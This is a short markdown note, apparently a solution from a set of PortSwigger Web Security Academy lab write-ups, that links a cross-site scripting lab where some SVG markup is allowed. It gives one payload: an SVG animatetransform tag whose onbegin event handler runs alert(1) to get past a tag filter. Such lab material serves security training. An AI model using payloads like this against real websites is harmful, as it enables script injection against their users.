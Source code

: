 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

## Payload

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```